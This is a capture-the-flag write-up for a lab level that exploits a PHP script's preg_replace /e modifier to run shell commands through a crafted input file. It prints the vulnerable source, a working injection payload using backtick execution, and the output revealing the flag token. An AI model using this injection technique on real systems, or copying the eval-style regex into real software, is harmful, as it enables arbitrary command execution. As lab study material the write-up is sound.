 ## Level 06: PHP Regex Injection Vulnerability

### Goal
Exploit a PHP regex vulnerability in a web application to execute arbitrary commands and retrieve the flag.

## Steps

### I - Analysis

1. **Initial Discovery**  
After logging in, we find two files in the directory:
- `level06` (executable binary)
- `level06.php` (PHP script)

2. **Initial Testing**  
When executing the binary `level06`, we get:
```bash
PHP Warning: file_get_contents(): Filename cannot be empty in /home/user/level06/level06.php on line 4
```

3. **Source Code Analysis**  
Examining `level06.php` reveals:
```php
#!/usr/bin/php
<?php
function y($m) { 
	$m = preg_replace("/\./", " x ", $m);
	$m = preg_replace("/@/", " y", $m);
	return $m; 
}

function x($y, $z) { 
	$a = file_get_contents($y);
	$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
	$a = preg_replace("/\[/", "(", $a);
	$a = preg_replace("/\]/", ")", $a);
	return $a;
}

$r = x($argv[1], $argv[2]);
print $r;
?>
```

### II - Code Breakdown

1. **Script Structure**  
- Takes two command-line arguments: `$argv[1]` and `$argv[2]`
- Contains two functions: `x()` and `y()`

2. **Function x() Analysis**  
- Reads file content using `file_get_contents($y)`
- Performs three regex replacements:
	1. Matches `[x ...]` patterns and processes them with function y()
	2. Replaces `[` with `(`
	3. Replaces `]` with `)`

3. **Function y() Analysis**  
- Performs two string replacements:
	1. Replaces `.` with ` x `
	2. Replaces `@` with ` y`

### III - Vulnerability Analysis

The vulnerability lies in the regex replacement using the `/e` modifier:
```php
$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
```

Key points:
- The `/e` modifier in PHP causes the replacement string to be evaluated as PHP code
- This allows for arbitrary code execution through carefully crafted input
- PHP's `${}` syntax can be used for shell command execution

### IV - Exploitation

1. **Create Exploit File**
   Create a temporary file containing the payload:
   ```bash
   echo '[x ${`getflag`}]' > /tmp/flag06
   ```

2. **Execute the Exploit**
   Run the binary with our payload file:
   ```bash
   ./level06 /tmp/flag06
   ```
   Output:
   ```bash
   PHP Notice: Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
    in /home/user/level06/level06.php(4) : regexp code on line 1
   ```